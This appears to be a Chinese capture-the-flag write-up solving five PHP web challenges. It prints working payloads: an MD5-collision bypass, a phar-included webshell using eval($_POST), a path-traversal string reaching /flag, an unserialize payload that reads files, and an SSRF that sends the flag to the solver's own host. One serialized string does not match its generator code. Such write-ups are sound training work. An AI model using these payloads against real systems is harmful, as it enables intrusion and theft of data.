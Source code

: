 ### Writeup

[TOC]

#### 漏洞利用

##### bypass

利用PHP弱类型比较绕过，题目要求a和b不同而md5值相同，只需要找到符合这个条件的数据即可，使用GET传递

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

is_numeric函数会检查输入是否是数字或数字字符串，只需要插入字母即可绕过，并要求passwd==123456，在弱类型比较下，123456a==123456。num使用科学计数法绕过，只需要传递1e8就会被解析为100000000，使用POST传递

```
passwd=123456a&num=1e8
```

##### php-include

扫描目录找到include.php和upload.php，大概是上传一个webshell并include执行的题目。include.php中提示了参数为file，尝试伪协议读取源代码，?file=php://filter/read=convert.base64-encode/resource=include，可以发现所有被include的文件都会加上.php后缀。

![](https://notes.sjtu.edu.cn/uploads/upload_bcecbeffb85d79c57391c44aec1dd75b.png)

![](https://notes.sjtu.edu.cn/uploads/upload_1a82ddc8494caf603a41a1ee72dee264.png)

![](https://notes.sjtu.edu.cn/uploads/upload_340834646547a742c943540c81cfa2a8.png)

upload.php限制了文件扩展名，只需要编写hell.php（用于生成webshell）进行压缩，再将压缩包后缀改为.jpg，上传后得到路径。

```php
<?php file_put_contents('shell.php','<?php eval($_POST[2])?>'); ?>
```

![](https://notes.sjtu.edu.cn/uploads/upload_3d095a49281d34f98dae5de62f5e0281.png)

使用phar伪协议可以将hell.jpg内的hell.php文件执行，在网站根目录生成webshell，使用蚁剑连接即可得到flag。

```
?file=phar:///uploads/hell.jpg/hell.php
```

![](https://notes.sjtu.edu.cn/uploads/upload_62417c8a1133ed9b09ef5de578f49e08.png)

##### smarty

在主要代码中未对用户输入进行过滤，即使有路径拼接，但可以使用路径穿越漏洞访问其他目录。

```php
if (isset($_GET['page']) && gettype($_GET['page']) === 'string') {
    $file_path = "file://" . getcwd() . "/pages/" . $_GET['page'];
    $smarty->display($file_path);
}
```

只需要输入以下payload即可。

```
?page=../../../../../../../flag
```

##### unserialize

用户可控的$_REQUEST["data"]被反序列化为一个Test对象，func为函数名，p为函数变量，只需要使用不在黑名单中的函数即可对系统文件进行读取，这里使用file_get_contents，生成payload

```
<?php
class Test {
    public $p = "/flag";               // 读取目标
    public $func = "file_get_contents"; // 要调用的函数
    public $disable_fun = [];
}
echo urlencode(serialize(new Test()));
?>
```

使用GET传递参数

```
data=O%3A4%3A"Test"%3A3%3A{s%3A1%3A"p"%3Bs%3A10%3A"%2Fflag"%3Bs%3A4%3A"func"%3Bs%3A17%3A"file_get_contents"%3Bs%3A11%3A"disable_fun"%3Ba%3A1%3A{i%3A0%3Bi%3A123%3B}}
```

##### waitress

服务存在SSRF漏洞， 只需要控制host参数访问一个本地HTTP服务即可得到flag。首先在自己的主机上启动一个Python HTTP服务器监听请求

```
# 启动监听 8000 端口
python3 -m http.server 8000
```

在浏览器访问即可在监听终端中查看flag的内容

```
http://192.168.114.131:11002/getflag?host=1xx.xx.xx.xx:8000
```

